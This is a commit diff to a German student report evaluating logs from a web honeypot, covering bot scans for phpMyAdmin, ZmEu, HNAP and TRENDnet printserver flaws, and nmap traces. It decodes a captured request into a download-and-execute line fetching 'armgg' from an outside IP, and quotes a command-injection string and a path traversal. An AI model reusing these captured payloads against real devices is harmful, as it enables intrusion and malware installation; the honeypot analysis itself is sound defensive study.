

Before and after one commit to dschwenk/Sysadmin, a LaTeX book (Dokumentation/Dokumentation/00_Dokumentation.tex, which reads Dokumentation/Dokumentation/08_evaluation.tex): part of page 40 of 56 before the commit and two parts of pages 40 and 41 of 57 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
Saved evaluation, one more left to explain

```diff
--- a/Dokumentation/Dokumentation/08_evaluation.tex
+++ b/Dokumentation/Dokumentation/08_evaluation.tex
@@ -41,35 +41,36 @@
 
 61 Aufrufe des Root-Pfades der Webseite lassen darauf schließen, dass der Honeypot tatsächlich von circa 61 unterschiedlichen Systemen aufgerufen wurde. Auch die 14 Anfragen mit dem Ziel die Ressource 'favicon.ico' zu laden, lassen einen Rückschluss zu.  Bei dieser Ressource handelt es sich um ein Miniatur-Bild, ein Logo einer Webseite, das innerhalb eines Browser-Tabs der URI vorangestellt wird und im Wesentlichen der Repräsentation und Wiedererkennung dient. Das Anfordern dieser Ressource ist eine Eigenheit von verbreiteten Browsern, so lässt sich daraus schließen, dass es tatsächlich annähernd 14 manuell durchgeführte Aufrufe des Webhoneypots unter Verwendung eines Browsers gab. Da das Projektteam zu diesem Zeitpunkt bereits im Rahmen der Veröffentlichung dieser Dokumentation die IP-Adresse des Honeypots öffentlich gemacht hat, ist die Möglichkeit nicht auszuschließen, dass diese Zugriffe dieser Veröffentlichung zuzuschreiben sind und sonst möglicherweise nicht stattgefunden hätten.\\
 
-Die wenig ansprechende Optik, der Mangel an Inhalten und Angriffsflächen in Form von Eingabefeldern der während dieses Zeitraums aktiven Weboberfläche des Honeypots, lassen darauf schließen, dass der Großteil der aufgezeichneten Zugriffe und Zugriffsversuche automatisiert stattgefunden hat. Dafür sprechen auch 5 Zugriffe auf die Datei 'robots.txt', die insbesondere von gutartigen aber auch bösartigen Bots, so genannten Webcrawlern, die das Internet automatisiert nach Inhalten durchsuchen, ausgewertet wird. So ist es eine gängige Praxis diese Datei nach Einträgen mit vorangestelltem 'disallow' zu durchsuchen, welche Pfade zu Ressourcen angibt, welche von einem solchen Webcrawler auf Wunsch des Administrators nicht betrachtet werden sollen. Gerade diese Vorgabe macht es für Angreifer interessant, genau diese, vom Administrator nicht zur Durchsicht erwünschten, Ressourcen aufzurufen und zu analysieren. 5 Zugriffsversuche auf die Webanwendung phpMyAdmin\footnote{ \textit{phpMyAdmin}: \url{https://www.phpmyadmin.net/}} lassen darauf schließen,
+Die wenig ansprechende Optik, der Mangel an Inhalten und Angriffsflächen in Form von Eingabefeldern der während dieses Zeitraums aktiven Weboberfläche des Honeypots, lassen darauf schließen, dass der Großteil der aufgezeichneten Zugriffe und Zugriffsversuche automatisiert stattgefunden hat. Dafür sprechen auch 5 Zugriffe auf die Datei 'robots.txt', die insbesondere von gutartigen aber auch bösartigen Bots, so genannten Webcrawlern, die das Internet automatisiert nach Inhalten durchsuchen, ausgewertet wird. So ist es eine gängige Praxis diese Datei nach Einträgen mit vorangestelltem 'disallow' zu durchsuchen, welche Pfade zu Ressourcen angibt, welche von einem solchen Webcrawler auf Wunsch des Administrators nicht betrachtet werden sollen. Gerade diese Vorgabe macht es für Angreifer interessant, eben selbige, vom Administrator nicht zur Durchsicht erwünschten, Ressourcen aufzurufen und zu analysieren.\\
+
+Desweiteren konnten 5 Zugriffsversuche auf die Webanwendung phpMyAdmin\footnote{ \textit{phpMyAdmin}: \url{https://www.phpmyadmin.net/}}, die bei unserem Honeypot nicht zum Einsatz kam, aber sehr häufig genutzt wird, festgestellt werden. Diese Angriffe ebenso wie der versuchte Aufruf von '/w00tw00t.at.blackhats.romanian.anti-sec:)' deuten auf einen durch Bots durchgeführten Angriff hin. So ist es insbesondere aufgrund dieses Eintrages anzunehmen, dass ein Bot namens ZmEu\footnote{ \textit{ZmEu}: \url{https://ensourced.wordpress.com/2011/02/25/zmeu-attacks-some-basic-forensic/}} dafür verantwortlich ist. Entsprechend der hier gemachten Erfahrungen, ist phpMyAdmin eine Webanwendung, die es im realen Einsatz besonders zu schützen gilt, da diese ein beliebtes Ziel für Angriffe zu sein scheint. Für das Projektteam würde es sich für zukünftige Honeypot lohnen, phpMyAdmin zu simulieren, um genauere Kenntnisse über stattfindende Angriffe erlangen zu können.\\
+
+Insgesamt wurden über 30 Versuche geloggt, deren Ziel es war auf Login-Seiten zu gelangen. Das unterstreicht noch einmal die Erkenntnisse des Projektteams, die im Rahmen des Betriebs des SSH-Honeypots gemacht wurden, was die Bedeutung sicherer Passwörter anbelangt. Aufgrund dieser Zugriffsversuche hat sich das Projektteam dazu entschlossen, den Webhoneypot um ein Login-Formular zu erweitern.
+Nach der Durchführung eines SNARE Updates war es dem Projektteam allerdings nicht mehr möglich den Webhoneypot erneut in Betrieb zu nehmen und somit konnten während dieser Phase keine weiteren Angriffe geloggt werden.\\
+
+Auch ein einzelner Eintrag ist an dieser Stelle erwähnenswert, verdeutlicht er doch die Breite des Spektrums, in der Angriffe stattfinden: Der Zugriffsversuch '/HNAP1' zielt auf eine Schwachstelle\footnote{ \textit{Schwachstellen von HNAP}: \url{https://isc.sans.edu/forums/diary/More+on+HNAP+What+is+it+How+to+Use+it+How+to+Find+it/17648/}} in der Implementierung des Home Network Administration Protocols(HNAP) unter anderem bei D-Link\footnote{ \textit{D-Link}: \url{http://www.dlink.com/de/de}}, aber auch anderen Routern hin.\\
+
+'./stssys.htm' zählt auch zu der Kategorie einzigartig. So handelt es sich bei dieser Anfrage um den Versuch eine Schwachstelle\footnote{ \textit{Schwachstelle TRENDnet Printserver}: \url{https://neonprimetime.blogspot.de/2016/08/stssyshtm-wget-request.html}} bei TRENDnet Printservern auszunutzen, mit der Folge das betroffene Gerät auf Werkseinstellungen zurücksetzen und somit die IP-Adresse des Gerätes neu zu vergeben.\\
+
+Erst durch die Umwandlung von der hexadezimalen Schreibweise in ASCII offenbart sich '/shell?\%63\%64\%20\%2F\%74\%6D\%70\%3B\%77\%67\%65\%74\%20\%2D\%63\%20\%68\%74\%74\%70\%3A\%2F\%2F\%31\%32\%32\%2E\%31\%31\%34\%2E\%32\%35\%33\%2E\%39\%34\%3A\%31\%35\%35\%32\%31\%2F\%61\%72\%6D\%67\%67\%3B\%63\%68\%6D\%6F\%64\%20\%37\%37\%37\%20\%61\%72\%6D\%67\%67\%3B\%2E\%2F\%61\%72\%6D\%67\%67\%20\%26' als das was er wirklich ist: 'cd /tmp;wget -c http://122.114.253.94:15521/armgg;chmod 777 armgg;./armgg \&'. Über einen 'wget' wird versucht die Ressource 'armgg' von einer IP-Adresse herunterzuladen und gegebenenfalls unterbrochene Downloads, durch den Parameter '-c' für continue, fortzusetzen. 'armgg' soll durch 'chmod 777' von Jedermann gelesen, verändert oder ausgeführt werden können und daraufhin als Hintergrundprozess gestartet werden. Zu gegebener Zeit wird das Projektteam versuchen, diese Datei herunterzuladen und in einer gesicherten Umgebung betrachten.
+
+/language/Swedish\${IFS}\&\&echo\${IFS}610cker
+>qt\&\&tar\${IFS}/string.js
+
+/../../../../../../../mnt/mtd/qt
+
+http://www.kerneronsec.com/2016/02/remote-code-execution-in-cctv-dvrs-of.html
 
 
-Login-Formular nicht mehr relevant, nach Updates SNARE instabil.
+Zu guter Letzt ist es auch erwähnenswert, dass auch ein Portscan, hier mit nmap, Spuren\footnote{ \textit{Spuren eines nmap Port-Scans}: \url{http://stateofsecurity.com/?p=467 }} in den Log-Files eines Webservers hinterlässt, so sind die Einträge '/nmaplowercheck1480791133' und '/nice\%20ports\%2C/Tri\%6Eity.txt\%2ebak' zurückzuführen auf einen, vom Projektteam selbst, durchgeführten Scan.
 
 
-5 phpmyadmin (MySQL verwaltung)Aufrufe -> Hätte sich gelohnt etwas entsprechendes zu simulieren
--> Botnetz
--> Bot sucht Schwachstellen in phpmyadmin -> https://ensourced.wordpress.com/2011/02/25/zmeu-attacks-some-basic-forensic/
-http://stateofsecurity.com/?p=467
--> viele geskriptete Attacken auf phpmyadmin -> hohe Sicherheitsmaßnahmen nötig bei Vernwendung von phpmyadmin
--> http://sharadchhetri.com/2013/06/27/protect-from-w00tw00t-at-blackhats-romanian-anti-sec/
+Maßlos unterschätzt was da auf uns einprasselt
 
-Insgesamt über 30 Versuche auf Login-Flächen zu gelangen oder Passwörter abzurufen -> Wichtigkeit sicherer Passwörter
+/language/Swedish\${IFS}\&\&echo\${IFS}610cker
+>qt\&\&tar\${IFS}/string.js
 
-HNAP  014, the HNAP was succesfully exploited by The Moon worm
+/../../../../../../../mnt/mtd/qt
 
-http://stateofsecurity.com/?p=467
-   1 Request path: /nmaplowercheck1480791133
-   1 Request path: /nice%20ports%2C/Tri%6Eity.txt%2ebak
-   portscan mit nmap
-
-w00tw00t -> This is just an automatic script deployed by many Script Kiddies looking for a security breach in your apache version/configuration. The signature w00tw00t is usually left by DFind.
-
-./stssys.htm -> https://neonprimetime.blogspot.de/2016/08/stssyshtm-wget-request.html
-
-Schlussfolgerung aufgrund von Aufmachung(zunächst example-Klon, danach schäbiges Login-Formular) -> Großteil der Angriffe automatisiert
 
 -> Man hätte noch IP-Adressen auswerten können indem man python-file von SNARE editiert hätte -> Zeitgründe
-
-
-Sample one:
```
Also changed, not shown: Dokumentation/Dokumentation/00_titel.tex (+1 -1 lines), Dokumentation/Dokumentation/00_Dokumentation.pdf.
